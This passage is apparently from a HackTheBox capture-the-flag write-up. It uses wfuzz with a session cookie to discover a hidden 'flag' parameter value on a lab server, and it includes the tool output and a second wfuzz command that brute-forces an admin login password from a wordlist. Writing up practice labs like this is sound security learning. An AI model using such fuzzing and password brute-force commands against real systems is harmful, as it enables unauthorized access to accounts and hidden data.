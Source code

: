 Let's use wfuzz to iterate through different values for `info=` (need to ensure
we pass in the `PHPSESSID` cookie as a header that got us past the login
screen). We'll use the pattern "Not" from "Not Found" to filter out invalid
values.

```
$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/megabeast.txt --hs Not -H "Cookie:PHPSESSID=goa9r4gatjedo6df8uktgpclp7" http://88.198.233.174:35130/panel.php?info=FUZZ
```

```
********************************************************
* Wfuzz 2.2.3 - The Web Fuzzer                         *
********************************************************

Target: HTTP://88.198.233.174:35130/panel.php?info=FUZZ
Total requests: 45463

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

16817:  C=200     16 L	      28 W	    384 Ch	  "flag"
20310:  C=200     16 L	      30 W	    408 Ch	  "home"

Total time: 751.5835
Processed Requests: 45463
Filtered Requests: 45461
Requests/sec.: 60.48961

```

So fuzzing yields two valid values for the `info=` parameter, 1. `home` (which
we already know of) and 2. `flag`!!

```
http://88.198.233.174:35130/panel.php?info=flag
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/web/cartographer/login-flag.jpg" width=200px/>

Would be interesting to try and brute force other POST request challenges in
the future with something like this..

```
$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -d "username=admin&password=FUZZ" http://88.198.233.174:35130/
```
